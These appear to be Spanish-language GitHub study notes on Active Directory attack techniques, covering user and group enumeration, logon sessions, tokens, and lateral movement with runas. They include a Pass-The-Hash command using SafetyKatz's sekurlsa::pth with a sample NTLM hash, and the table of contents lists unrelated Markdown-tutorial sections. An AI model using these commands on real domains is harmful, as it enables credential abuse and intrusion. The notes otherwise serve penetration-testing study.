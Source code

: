 ## Tabla de contenido

- [Enumeración](#Enumeración).
- *[LogonSesssion](#LogonSesssion)*.
- [Token](#Token).
- [Movimiento_lateral](#Movimiento_lateral).
 - [runas](#runas).
- [insertar imágenes](#insertar-imagenes).
- [Insertar enlaces](#insertar-enlaces).
- [Hacer anclaje](#hacer-anclaje).
- [Insertar una línea de código](#insertar-una-linea-de-codigo).
- [Insertar un bloque de código](#insertar-un-bloque-de-codigo).
- [Resaltar el código](#resaltar-el-codigo).
- [Insertar tablas](#insertar-tablas).
- [Otras referencias sobre Markdown](#otras-referencias-sobre-markdown).

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-The-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
